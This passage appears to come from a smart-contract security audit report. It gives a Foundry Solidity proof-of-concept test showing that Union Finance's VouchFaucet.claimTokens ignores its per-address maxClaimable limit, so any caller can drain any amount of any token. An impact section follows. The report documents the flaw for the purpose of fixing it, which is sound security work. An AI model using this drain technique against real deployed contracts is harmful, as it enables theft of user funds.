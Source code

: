 ### Proof of Concept

The proof of concept below imports and utilizes [the protcols own TestWrapper](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/test/foundry/TestWrapper.sol) for simplicity in setting up a realistic testing environment.

The test case demonstrates that despite the VouchFaucet containing mechanisms that clearly intend to disallow the faucet from being easily drained by a single address, such an outcome is possible with no effort. 


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.16;

import {Test, console} from "forge-std/Test.sol";
import {TestWrapper} from "../TestWrapper.sol";
import {VouchFaucet} from "../../src/contracts/peripheral/VouchFaucet.sol";

import {IERC20} from "@openzeppelin/token/ERC20/IERC20.sol";

contract TestVouchFaucet is TestWrapper {
    VouchFaucet public vouchFaucet;
    uint256 public TRUST_AMOUNT = 10 * UNIT;

    function setUp() public {
        deployMocks();
        vouchFaucet = new VouchFaucet(address(userManagerMock), TRUST_AMOUNT);
    }

    function testDrainVouchFaucet() public {
        address bob = address(1234);

        erc20Mock.mint(address(vouchFaucet), 3 * UNIT);

        vouchFaucet.setMaxClaimable(address(erc20Mock), 1 * UNIT);
        assertEq(vouchFaucet.maxClaimable(address(erc20Mock)), 1 * UNIT);

        // Bob can claim any number of tokens despite maxClaimable set to 1 Unit
        vm.prank(bob);
        vouchFaucet.claimTokens(address(erc20Mock), 3 * UNIT);

        assertEq(IERC20(erc20Mock).balanceOf(bob), 3 * UNIT);
    }

}
```

## Impact

Without the intended enforcement provided by the require statement the claimTokens function provides unrestricted external access to an ERC20 transfer function. This is clearly not intended as demonstrated by the presence of the onlyOwner on the similar transferERC20 function. The result is that any caller can immediately transfer out any amount of any token.
